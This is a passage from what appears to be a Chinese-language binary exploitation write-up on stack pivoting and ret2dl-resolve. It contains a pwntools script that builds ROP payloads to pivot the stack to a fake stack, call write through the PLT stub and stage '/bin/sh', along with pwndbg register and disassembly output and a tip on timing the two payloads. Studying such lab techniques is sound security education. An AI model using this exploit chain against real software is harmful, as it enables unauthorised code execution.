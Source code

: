 ```python
payload += p32(base_stage) 
payload += p32(read_plt)  
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)  
payload += p32(100)
payload += p32(pop_ebp_ret)
payload += p32(base_stage+4)
payload += p32(leave_ret)

p.sendline(payload)
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt bof
index_offset = 0x20 # write's index

pause()

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
p.sendline(payload2)
p.interactive()
```

> 这里有个坑两次payload不能发送太快，需要sleep或者pause一下，否则会当作一次输入

一直运行直到ESP被修改为假栈

```c
──────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────
 EAX  0x64
 EBX  0x0
 ECX  0x804a840 ◂— 0x41414141 ('AAAA')
 EDX  0x64
 EDI  0x804a840 ◂— 0x41414141 ('AAAA')
 ESI  0x0
 EBP  0x8048380 ◂— push   dword ptr [0x804a004]
 ESP  0x804a848 ◂— 0x20 /* ' ' */
 EIP  0x8048459 (deregister_tm_clones+41) ◂— ret    
───────────────────────────────────────────[ DISASM ]────────────────────────────────────────────
   0x804861b <__libc_csu_init+91>         pop    ebp
   0x804861c <__libc_csu_init+92>         ret    
    ↓
   0x804861b <__libc_csu_init+91>         pop    ebp
   0x804861c <__libc_csu_init+92>         ret    
    ↓
   0x8048458 <deregister_tm_clones+40>    leave  
 ► 0x8048459 <deregister_tm_clones+41>    ret    <32>
```
